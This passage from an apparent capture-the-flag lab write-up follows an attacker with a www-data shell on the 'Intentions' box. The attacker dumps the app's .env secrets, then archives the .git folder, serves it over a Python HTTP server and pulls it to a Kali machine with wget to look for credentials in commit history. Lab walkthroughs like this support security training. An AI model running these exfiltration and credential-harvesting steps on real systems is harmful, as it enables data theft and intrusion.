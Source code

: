 The `.env` file also contained some interesting stuff, but it wasn't super useful because we already dumped the database earlier:

```
www-data@intentions:~/html/intentions$ cat .env
APP_NAME=Intentions
APP_ENV=production
APP_KEY=base64:YDGHFO792XTVdInb9gGESbGCyRDsAIRCkKoIMwkyHHI=
APP_DEBUG=false
APP_URL=http://intentions.htb

LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=intentions
DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
<TRUNCATED>
```

We cannot read the `git log` output for this folder:

```
www-data@intentions:~/html/intentions$ git log -p 2 
fatal: detected dubious ownership in repository at '/var/www/html/intentions'
To add an exception for this directory, call:

        git config --global --add safe.directory /var/www/html/intentions
```

In this case, what we can do is just copy the entire `.git` folder using `tar`, as `zip` and `7z` are both not present on the machine.&#x20;

```bash
cp -r .git /tmp/.git
tar -cvf rep.tar /tmp/.git
python3 -m http.server 4444
## on kali
wget <IP>:4444/rep.tar
```

Afterwards, we can view the `git log -p -2` output to find some credentials.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>
